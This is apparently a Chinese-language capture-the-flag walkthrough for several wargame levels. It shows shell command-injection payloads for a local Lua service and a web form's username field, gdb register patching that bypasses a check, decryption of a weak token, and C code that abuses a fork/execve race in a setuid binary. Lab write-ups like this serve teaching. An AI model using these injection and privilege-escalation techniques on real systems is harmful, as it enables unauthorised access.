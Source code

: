# Level12

1.	连接50000端口的lua服务： nc -nv 127.0.0.1 50000
2.	输入指令闭合语句，获得flag： ; /bin/getflag12 > ~/flag; #

![12](https://s2.loli.net/2021/12/17/f87u1qP3BDGRkSA.png)

# Level13

1. 使用gdb调试程序： gdb ./flag13
2. 在main中打断点： (gdb) b main
3. (gdb) display /20i $pc，查看20行汇编
3.	运行，然后单步调试到 ”=> 0x080484f4 <+48>:    cmp eax, 0x3e8“
4.	修改寄存器eax的值为0x3e8： (gdb) set $eax=0x3e8
5.	继续执行得到token（b705702b-76a8-42b0-8844-3adabbe5ac58），登录flag13获得flag

![13](https://s2.loli.net/2021/12/17/YIGEpuAU2cn3bm6.png)

# Level14

1.	运行flag14，观察发现加密算法是 str[i] += i;
2.	将加密的token进行解密，得到 318d229.998d.5f
3.	登录flag14，获得flag

![14](https://s2.loli.net/2021/12/17/WIqh7TVeHaybcUL.png)

# Level16

1. 编写脚本 /tmp/getflag：

   ```shell
   #!/bin/sh
   /bin/getflag16 > /tmp/flag
   ```

2. 写一个html表单，在username中提交 ";a=/tmp/getflag;${a,,};

3. 查看 /tmp/flag 获得 flag

![16](https://s2.loli.net/2021/12/17/IKbFR3rsEUimOtk.png)

# level19

1. 编写脚本，fork一个子进程，然后父进程退出，子进程执行 /home/flag19/flag19

   ```C
   #include<stdio.h>
   #include<unistd.h>
   #include<stdlib.h>
   int main(){ 
       char* args[] = {"/bin/sh", "-c", "/bin/getflag19>/tmp/flag_19", NULL};  
       if(!fork()){
            execve("/home/flag19/flag19", args, NULL);
   	} else {
            exit(0);
       }
       return 0;
   }编译链接执行，查看输出获得flag
   ```
